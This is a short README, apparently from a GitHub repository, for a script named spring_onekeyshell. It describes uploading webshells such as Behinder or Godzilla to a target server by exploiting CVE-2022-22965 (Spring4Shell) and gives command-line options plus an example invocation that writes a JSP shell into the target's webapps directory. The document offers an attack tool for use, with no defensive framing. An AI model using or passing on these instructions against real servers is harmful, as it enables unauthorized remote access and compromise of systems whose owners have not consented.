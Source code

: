 # Spring_onekeyshell
Upload the webshell such as behinder or godzilla to target by CVE-2022-22965
## Based off the work of
https://github.com/reznok/Spring4Shell-POC

## Instructions
1. download spring_onekeyshell
2. run the script:
- `--url` target url
- `--ws` WebShell File [example.jsp]
- `--file` File to write to [no extension]
- `--dir` Directory to write to. Suggest using "webapps/[appname]" of target app
```
python spring_onekeyshell.py --url http://localhost:8080/helloworld --ws /tmp/webshell.jsp --file vuln --dir webapps/ROOT
```

